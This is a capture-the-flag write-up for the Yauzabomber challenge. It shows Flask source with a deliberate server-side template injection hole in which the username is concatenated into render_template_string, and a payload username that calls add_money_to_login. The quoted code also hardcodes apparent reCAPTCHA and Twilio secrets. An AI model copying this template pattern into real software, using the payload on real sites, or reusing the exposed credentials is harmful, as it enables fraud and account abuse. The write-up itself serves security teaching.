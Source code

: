 ```yaml
---
description: Server-Side Template Injection (SSTI) in SMS template
---
```


# Yauzabomber

## Description

http://tasks.yauzactf.com:30003/

Your task is to learn a new service for fast sending messages at

## Solution

### Unintended

The `.git` directory and source code was exposed on the webserver. In `app.py`, the flag is exposed.

```python
@app.route("/shop/", methods=['POST'])
@require_authorization
def shop_form(current_user):
    item_id = int(request.form.get('id'))
    user_obj, item_obj = db.ShopItem().buy_item(item_id, current_user.id)
    shop_items = db.ShopItem().list_items()

    if user_obj is None:
        return render_template("shop.html", shop_items=shop_items, error=1)

    if item_obj.phone == '+7777-(777)-777777':
        db.User().delete_login(current_user.login)
        return render_template("shop.html", shop_items=shop_items, flag='YauzaCTF{$M$_B000mb3r_$$t1_vu1n}')

    return render_template("shop.html", shop_items=shop_items, success=1)
```

### Intended

There is a vulnerability in the "new chat" feature.

```python
@app.route("/new_chat/", methods=['POST'])
@require_authorization
def new_chat(current_user):
    phone = str(request.form.get('phone'))
    message = str(request.form.get('message'))
    recaptchaResponse = str(request.form.get('g-recaptcha-response'))

    r = requests.post('https://www.google.com/recaptcha/api/siteverify',
                      data={
                          'secret': '6LcFLRccAAAAAJGO9V52-YxMiXkrKLmT4GBp9Ysf',
                          'response': recaptchaResponse,
                          'remoteip': '127.0.0.1',
                      })
    a = request.form
    j = r.json()

    if 'success' in j and j['success']:
        if not phone.startswith('+1337') and not phone.startswith('1337'):
            # sms message
            result = sms.send_sms(number='+' + re.sub("[^0-9]", "", phone), message=message, login=current_user.login, vulnfunc=db.User().add_money_to_login)
            if result:
                db.Message().send_sms(current_user, phone, message)
        else:
            # chat private message
            db.Message().send_private(current_user, phone, message)

    return redirect('/private/')
```

When sending an SMS to a number that does not begin with `+1337` or `1337`, the `send_sms` function in `sms.py` is called, with the keyword argument `vulnfunc=db.User().add_money_to_login`.

In the `send_sms` function, Flask's `render_template_string` function is used to generate the SMS message.

```python
def send_sms(number, message, login, vulnfunc):
    try:
        message = render_template_string('Hello from ' + login + ':\n{{ message }}', message=message, add_money_to_login=vulnfunc)
    except Exception as e:
        message = str(e)
    print(message)
    message = message[:160]
    r = requests.post(
        'https://api.twilio.com/2010-04-01/Accounts/AC8af1c9ea60578bbf05fcc8073785601d/Messages.json',
        data={
            'To': number,
            'MessagingServiceSid': 'MG2361073db2b525645c80023fbf791ff8',
            'Body': message
        },
        auth=HTTPBasicAuth('AC8af1c9ea60578bbf05fcc8073785601d', '43b98a2b0de062483f43e938112d9aa0')
    )
    print(number)
    j = r.json()
    print(j)
    return j['status'] == 'accepted' and not j['error_code']
```

The resulting template is user-controllable, since `login` is our username.

```python
'Hello from ' + login + ':\n{{ message }}'
```

We can then exploit Server-Side Template Injection \(SSTI\). Since the `add_money_to_login` function is added to the template context, we can manipulate the `login` variable to invoke this function. We essentially need two accounts, with one of the usernames being:

```python
{{ add_money_to_login(USERNAME, AMOUNT_OF_MONEY) }}
```

![](../../.gitbook/assets/upload_1a3560d2825112a36522ddfecb9b5b1c.png)

Then, when sending an SMS message, the following is called:

```python
render_template_string(
    'Hello from {{ add_money_to_login(USERNAME, AMOUNT_OF_MONEY) }}:\n{{ message }}', 
    message=message, 
    add_money_to_login=vulnfunc
)
```

When rendering the template, the `add_money_to_login` function is called, adding money to our other account.

![](../../.gitbook/assets/upload_8ef68bbab074e004b0c4c3a59ef8d74a.png)

Now that we have sufficient money, we can buy the flag!

![](../../.gitbook/assets/upload_170e466c6e5c955c491187bcd70bd2c3.png)

